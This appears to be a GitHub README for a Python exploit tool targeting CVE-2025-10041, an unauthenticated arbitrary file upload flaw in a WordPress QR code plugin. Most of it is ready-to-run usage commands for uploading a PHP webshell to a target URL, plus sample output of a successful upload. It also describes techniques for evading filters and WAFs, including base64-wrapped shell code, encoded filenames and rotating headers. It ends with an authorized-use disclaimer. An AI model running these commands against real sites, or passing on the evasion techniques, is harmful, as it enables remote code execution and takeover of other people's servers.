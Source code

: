 # CVE-2025-10041
Flex QR Code Generator &lt;= 1.2.5 - Unauthenticated Arbitrary File Upload
# 🚨 Flex QR Code Generator ≤ 1.2.5 - Unauthenticated Arbitrary File Upload

---

## 📝 Description

The **Flex QR Code Generator** plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `save_qr_code_to_db()` function in all versions up to, and including, `1.2.5`.  
This allows **unauthenticated attackers** to upload malicious files to the affected site's server, potentially leading to remote code execution.

- **CVE:** `CVE-2025-10041`
- **CVSS:** `9.8 (Critical)`

---

## 💡 About This Script

`CVE-2025-10041.py` is a professional exploit tool designed to automate the attack by leveraging this vulnerability.  
It provides advanced features for bypassing common protections and encoding techniques.

---

## ⚙️ Features

- **Automatic vulnerability detection** (version check)
- **Arbitrary file upload** (including PHP webshells)
- **Filename encoding bypass**: Base64 or URL encoding
- **Content encoding bypass**: PHP base64 wrapper for shell code
- **Randomized HTTP headers** to evade basic WAFs
- **Custom header support**
- **Full command-line interface** with argument parsing and help message

---

## 🖥️ Usage

### 1. **Basic Exploit**

```bash
python3 CVE-2025-10041.py -u http://target.com
```

### 2. **Shell Filename Encoding**

```bash
python3 CVE-2025-10041.py -u http://target.com --encode_filename base64
python3 CVE-2025-10041.py -u http://target.com --encode_filename url
```

### 3. **Shell Content Encoding**

```bash
python3 CVE-2025-10041.py -u http://target.com --encode_content base64
```

### 4. **Custom Shell Filename**

```bash
python3 CVE-2025-10041.py -u http://target.com --shellname myevil.php
```

### 5. **Advanced (Combine Options)**

```bash
python3 CVE-2025-10041.py -u http://target.com --encode_content base64 --encode_filename base64 --shellname myevil.php
```

### 6. **Custom Headers**

```bash
python3 CVE-2025-10041.py -u http://target.com --headers "X-Forwarded-For: 127.0.0.1" "Cookie: PHPSESSID=1337"
```

---

## 🆘 Help

To see all available options and usage instructions:

```bash
python3 CVE-2025-10041.py --help
```

---

## 🔓 Bypass Techniques

- **Filename encoding**: Some servers block `.php` or suspicious names; encoding may evade filters.
- **Content encoding**: Wrapping shell code in `eval(base64_decode(...))` may bypass content filters.
- **Random headers**: Rotating user-agent, referer, and cookies to avoid detection.
- **Custom headers**: Add your own headers for advanced evasion.

---

## 📋 Example Output

```
Checking vulnerability version...
Target is vulnerable ...
Exploiting ...
Uploading shell 'shell.php' ...
Shell uploaded successfully.
Shell path (guess): /wp-content/uploads/shell_3.php
Response: {...}
```

---

## ⚠️ Disclaimer

This script is provided **for educational, research, and authorized penetration testing purposes only**.  
**Unauthorized use** against systems you do not own or have explicit permission to test is strictly prohibited and illegal.  
The author is **not responsible** for any misuse or damage caused by this tool.

---

## ✍️ By:  
*Nxploited (Khaled Alenazi)*

---
